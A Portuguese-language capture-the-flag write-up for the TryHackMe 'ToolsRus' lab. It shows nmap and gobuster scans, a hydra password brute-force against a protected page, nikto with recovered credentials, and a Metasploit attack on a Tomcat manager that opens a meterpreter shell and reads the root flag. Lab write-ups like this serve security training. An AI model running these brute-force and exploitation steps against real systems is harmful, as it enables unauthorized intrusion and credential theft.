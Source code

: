 # ToolsRus CTF


#### THM = https://tryhackme.com/room/toolsrus

> Alooow!

> Este é o meu primeiro roteiro do TRM e o desafio foi o ToolsRus
Vou compartilhar o meu caminho..

![alt text](https://i.imgur.com/fAFiFoI.png)

	Usei as seguintes ferramentas 
	-dirbuster
	-hydra
	-nmap
	-nikto
	-metasploit


# Identificando portas!
### nmap
  ```nmap  -sV $IP```
![alt text](https://i.imgur.com/Q0EF01b.png)

### Gobuster 

Identificamos um servidor apache na porta 80 e curiosamente um Tomcat na porta 1234
Aplicamos o gobuster 
```gobuster dir -u http://10.10.139.47/ -w /usr/share/dirb/wordlists/common.txt```

![alt text](https://i.imgur.com/4UvdHSQ.png)

No diretório /guidelines encontramos o nome bob 

![alt text](https://i.imgur.com/WzIIRXh.png)

Na porta 1234 encontramos o Tomcat como esperado 

![alt text](https://i.imgur.com/CrxlCAt.png)

No diretório /protected identificamos a requisição de login e senha

![alt text](https://i.imgur.com/Fa7lkCQ.png)


Ja que identifiquei a porta 1234 vamos rodar um gobuster pra identificar novos diretórios

### Gobuster 

```gobuster dir -u http://10.10.139.47:1234/ -w /usr/share/dirb/wordlists/common.txt```

![alt text](https://i.imgur.com/59hvVpj.png)


Com a página de login encontrada vamos tentar quebrar a senha com o hydra usando o usuário bob que identificamos mais acima

### Hydra

```hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.139.47 http-get /protected```

![alt text](https://i.imgur.com/L8XzFtT.png)

Aqui encontramos login e senha 
Com essas credenciais conseguimos autenticar no Tomcat manager

![alt text](https://i.imgur.com/HRNcu6W.png)

Essas credenciais não são suficientes ainda para logar via SSH.

### Nikto
``` nikto -id bob:bubbles -h http://10.10.139.47:1234/manager/ ```
![alt text](https://i.imgur.com/YzpLnLJ.png)
Nos traz algumas paginas para analisar.. 

Com um possivel usuario ```bob``` e uma tela de login podemos fazer uma forcinha bruta e tentar descobrir a senha...
### Bora metasploit

	-set RHOST $IPDESTINO
	-set RPORT 1234
	-set httpusername bob
	-set httppasword *****
	-run
![alt text](https://i.imgur.com/9z9dnZC.png)
# Sucesso! 
O meterpreter nos dar poder para enviar comandos para a máquina

![alt text](https://i.imgur.com/7ZbXGC9.png)
Dentro de /root/ conseguimos ler a flag.txt
```cat /root/flag.txt ```

![alt text](https://i.imgur.com/z2e1Dki.png)

Com a flag e root finalizo esta sala!

[]`s

